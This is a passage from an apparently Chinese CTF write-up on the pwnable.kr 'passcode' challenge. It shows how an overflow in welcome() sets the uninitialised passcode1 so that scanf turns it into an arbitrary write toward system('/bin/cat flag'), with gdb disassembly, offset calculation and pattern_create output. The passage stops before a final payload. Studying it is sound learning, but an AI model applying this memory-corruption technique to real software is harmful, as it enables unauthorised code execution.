 那么问题来了，怎么才能让程序调到这里面呢。
通过控制`passcode1`的值，再通过`scanf("%d", passcode1);`可以在覆盖某些函数地址为`system("/bin/cat flag");`的地址，从而再次执行被篡改地址的函数时，触发攻击。
如何覆盖`passcode1`的值？栈溢出？在当前函数`login`中无法做到，但是在`welcome`中存在栈溢出的漏洞，

```
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

`scanf("%100s", name);`的*%100s*意味着只存入输入值的前100个字符。这100个字符能够覆盖到`passcode1`在栈上的值呢。

这里`login`,`welcome`函数的栈基址ebp在同一位置，所以观察`welcome`中的`name`位置。

```
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
===>   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>

```
`name`的位置为`ebp-0x70`，`passcode1`和位置为`ebp-0x10`，所以两者相距为`0x60`也就是96，溢出肯定没问题。

但是我想说的是另一种确定偏移量的方法。利用`gdb-peda`的`pattern_create`和`pattern_offset`两个命令。
	
	pattern create size 生成特定长度字符串
	pattern offset value 定位字符串 

```
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ b*0x080485cc
Breakpoint 1 at 0x80485cc
gdb-peda$ r
Starting program: /home/prince/pwnable/pwnable.kr/passcode/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Welcome AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL!

```
将这100个字符的字符串传入程序。断点停在输入`passcode1`前。
```
[------------------------------------stack-------------------------------------]
0000| 0xffffcf30 --> 0x80487a3 --> 0x65006425 ('%d')
```